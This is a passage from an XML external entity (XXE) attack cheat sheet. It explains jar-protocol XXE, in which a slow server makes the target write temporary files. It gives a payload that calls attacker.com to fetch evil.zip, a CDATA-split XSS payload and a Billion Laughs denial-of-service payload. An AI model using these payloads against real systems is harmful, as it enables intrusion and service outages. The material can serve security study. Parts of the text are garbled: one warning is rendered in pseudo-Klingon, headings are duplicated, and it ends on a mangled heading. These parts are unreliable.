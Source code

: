 The process behind accessing a file within a PKZIP archive via the jar protocol involves several steps:

1. An HTTP request is made to download the zip archive from a specified location, such as `https://download.website.com/archive.zip`.
2. The HTTP response containing the archive is stored temporarily on the system, typically in a location like `/tmp/...`.
3. The archive is then extracted to access its contents.
4. The specific file within the archive, `file.zip`, is read.
5. After the operation, any temporary files created during this process are deleted.

An interesting technique to interrupt this process at the second step involves keeping the server connection open indefinitely when serving the archive file. Tools available at [this repository](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution) can be utilized for this purpose, including a Python server (`slow_http_server.py`) and a Java server (`slowserver.jar`).
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://attacker.com:8080/evil.zip!/evil.dtd">]>
<foo>&xxe;</foo>
```
{% hint style="danger" %}
Writing files in a temporary directory can help to **escalate another vulnerability that involves a path traversal** (such as local file include, template injection, XSLT RCE, deserialization, etc).
{% endhint %}

### XSS

{% hint style="danger" %}
Qa'HomDaq vItlhutlhlaHbe'chugh **path traversal** (local file include, template injection, XSLT RCE, deserialization, etc) vulnerability vItlhutlhlaHbe'chugh **escalate** vItlhutlhlaHbe'.
{% endhint %}
```xml
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```
### DoS

#### Billion Laugh Attack

#### DoS

#### Billion Laugh Attack
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
#### Yaml tIq
